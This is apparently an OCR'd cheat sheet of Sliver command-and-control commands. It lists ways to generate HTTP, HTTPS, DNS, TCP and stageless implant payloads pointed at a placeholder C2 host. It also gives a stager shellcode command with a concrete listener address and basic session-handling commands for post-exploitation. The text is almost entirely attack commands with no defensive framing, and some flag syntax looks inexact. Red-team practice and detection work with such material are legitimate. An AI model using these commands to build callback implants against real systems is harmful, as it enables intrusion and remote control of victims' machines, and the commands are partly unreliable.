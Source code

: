 
## Command Examples:

The Sliver C2 framework is a powerful and flexible post-exploitation command and control tool. Here is a list of common commands you can use with Sliver for generating payloads and performing post-exploitation activities. Note that the exact commands may vary depending on the version of Sliver you are using. For the most up-to-date information, consult the official Sliver documentation or use the help commands within the Sliver console.

### Payload Generation Commands

1. **Generate an HTTP payload**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

2. **Generate an HTTPS payload**:
   ```bash
   generate --https --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

3. **Generate a DNS payload**:
   ```bash
   generate --dns --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

4. **Generate a TCP payload**:
   ```bash
   generate --tcp --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

5. **Generate a stageless payload**:
   ```bash
   generate --stageless --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

6. **Generate a payload for a specific platform**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME> --platform <PLATFORM>
   ```

### Shellcode Generation Example

```shell
generate stager --lhost 192.168.45.250 --lport 9001 --arch amd64 --format c --save ~/test.c
```
33
### Post-Exploitation Commands

1. **List active sessions**:
   ```bash
   sessions
   ```

2. **Interact with a session**:
   ```bash
   use <SESSION_ID>
   ```
